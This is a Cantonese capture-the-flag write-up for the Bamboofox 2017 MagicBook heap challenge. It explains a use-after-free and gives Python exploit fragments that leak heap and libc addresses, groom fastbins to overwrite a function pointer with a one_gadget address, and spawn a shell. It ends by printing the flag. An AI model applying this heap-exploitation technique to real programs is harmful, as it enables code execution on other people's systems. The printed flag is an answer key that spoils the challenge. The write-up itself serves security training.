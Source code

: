 # Bamboofox 2017 MagicBook

呢條係好簡單嘅heap overflow題,本身就應該solve到既(可惜揾錯one gadget RCE address),係到要推介下hitcon david 大大嘅 [One_gadget](https://github.com/david942j/one_gadget) ,有佢就唔洗係IDA Pro 揾(錯) one gadget RCE 

Menu:
```

oh my god!!!!
You are just a normal human.......
You can only use at most five kinds of magic (vanished).

====== Magic Book ======
  1. Add a chant.

  2. Delete a chant.

  3. spell it !!!

========================
Choose a feature :

```

有得add, delete同 spell.

Spell就係用黎call print chant 嘅 option,同時print chant本身都係chant object嘅一枝function pointer(好重要)

每一次‵call add, 首先會malloc 一個 0x10嘅chunk 放function pointer 同content pointer, 再malloc 一個由用家input size 嘅chunk 去放input content

heap view :
```
0x603010:	0x0000000000400826	0x0000000000603030
0x603020:	0x0000000000000000	0x0000000000000021
0x603030:	0x4141414141414141	0x000000000000000a
0x603040:	0x0000000000000000	0x0000000000020fc1
0x603050:	0x0000000000000000	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000
0x603070:	0x0000000000000000	0x0000000000000000

```

而佢又有另一個table store heap address

```
0x6020a0 <list>:	0x0000000000603010	0x0000000000000000
0x6020b0 <list+16>:	0x0000000000000000	0x0000000000000000
0x6020c0 <list+32>:	0x0000000000000000	0x0000000000000000

```
個bug就係呢到,free完之後,係上面個table,相應位置冇set 0,引致use after free

可以開始exploit 

不過由於無edit function 所以我地唔可以用unlink attack 做GOT Hijacking 

普通fastbin attack 都唔得,因為add 會先malloc function pointer chunk再malloc content chunk

由於我地控制唔到function pointer chunk 去乜位,所以就會crash 

不過點都好我地都要leak libc, heapbase (呢到無用)

只要利用smallbin free完之後嘅fd bk pointer再配合puts leak libc heapbase 出黎(可以參考[Mental Snapshot - _int_free and unlink](http://uaf.io/exploitation/misc/2016/09/11/_int_free-Mental-Snapshot.html))  

```python
print "[+] Leaking heapbase : "
add(0,128,"AAAA")
add(1,128,"BBBB")
add(2,128,"CCCC")
add(3,128,"AAAA")
free(0)
free(2)
add(0,128,"DDDDDDD")
leakk=leak("DDDDDDD",0)
heapbase=int(leakk,16)-0x180
print "heapbase :"+hex(heapbase)
add(2,128,"DDDDDDD")
free(3)
free(2)
free(1)
free(0)

print "[+] Leaking Libc : "
add(0,128,"AAAA")
add(1,128,"BBBB")
add(2,128,"CCCC")
free(0)
add(0,128,"DDDDDDD")
leakk=leak("DDDDDDD",0)
```


# Exploit :

首先我地要malloc 一個Fastbin with content <0x20 嘅chunk 加兩個好大嘅chunk ,1個 padding (add(3,128,"X"))
)

係malloc 細chunk(add(0,30,"X"))嘅時候,由於function pointer chunk同content pointer chunk屬於0x20 bin ,就會拎返屬於以前table[0] table[1] function pointer 嘅address

```python
add(0,30,"X")
add(1,800,"T"*300)
add(2,500,"B"*300)
add(3,128,"X")
```

再用呢個次序free左佢:

```python
free(3)
free(2)
free(1)
free(0)
```
 
下一次malloc嘅function pointer chunk, 會拎返上面細chunk content位置(fastbin LIFO features)

Content chunk 會放左係之後,而且會覆蓋到以前嘅chunk(2 and 3)

再malloc一個大chunk (size=900), 我地會完整覆蓋到以前嘅chunk 3
 
再係原table[3]指住嘅heap address 位置放one gadget

利用use after free 走去menu spell->3 get shell(因為正常情怳下,spell係會先call table指住嘅heap address 嘅funciton做printing)

```python
known_heap=heapbase+0x190
rop=p64(pop_rax_ret)+p64(system)
add(1,900,"Q"*(96+48)+p64(one_gadget))
print "[+] Get Shell "
r.sendline("3")
r.recvuntil(":")
r.sendline("3")
r.sendline("ls -al")


```

Flag:

```
BAMBOOFOX{Hehehe...R3M3m6er_t0_s3T_Ni1_aFt3r_Fr3333333}
```


